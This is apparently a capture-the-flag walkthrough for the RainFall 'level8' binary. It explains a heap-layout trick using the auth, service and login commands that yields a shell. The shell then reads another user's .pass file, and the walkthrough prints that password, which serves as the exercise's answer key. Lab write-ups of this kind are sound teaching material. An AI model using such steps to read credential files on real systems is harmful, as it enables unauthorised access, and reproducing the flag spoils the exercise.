

# Walkthrough

**Main** : 
The goal of exploiting the vulnerability in the program called "level8" is to gain unauthorized access over the program's execution by accessing sensitivearray that is not supposed to be accessible .


**Process**:  
>   the idea it's to make three malloc, then  from the first pointer you can read what is on the second, and vice versa.<br/> 
>   Just read further than what has been allocated<br/>
>   Initially auth point on the first alloc addr `x804a008` <br/>
>   The address has space by 16bytes<br/>


## Solution 


```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ cat /home/user/level9/.pass
a542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
 
```
